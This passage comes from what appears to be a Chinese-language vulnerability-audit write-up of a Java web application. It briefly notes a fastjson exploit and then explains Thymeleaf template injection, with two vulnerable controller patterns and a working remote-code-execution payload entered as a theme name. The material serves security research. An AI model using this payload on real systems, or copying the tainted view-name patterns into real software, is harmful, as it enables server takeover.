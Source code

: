 中间有一块应该是推送的代码，就之前删除那部分（说实话没太理解），然后就是获取响应的内容返回

[![](assets/1709022863-fb55b1f8c7b2f8084bc3dc963cf12c01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191316-09fcd38c-d498-1.png)

之后就触发 fastjson 漏洞

[![](assets/1709022863-a80c96597e51c7494fc33fcefd1d0fd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226191333-14378022-d498-1.png)

## 0x07 Thymeleaf 模板注入漏洞

### 漏洞分析

能引起 Thymeleaf 模板注入漏洞的就两种情况：

1）在查找模板中，引用了用户输入的内容

```plain
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return  lang ; //template path is tainted
}
```

2）controller 无返回值，则以 GetMapping 的路由为视图名称

```plain
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
}
```

所以我们在寻找 Thymeleaf 模板注入漏洞时，重点关注一下以上两种情况，看看有没有查找模版时`视图名称`用户可控

### 漏洞复现

在主题管理功能处新增主题，然后在主题名称填入我们的 payload

```plain
__${T(Runtime).getRuntime().exec("calc")}__::.x
```
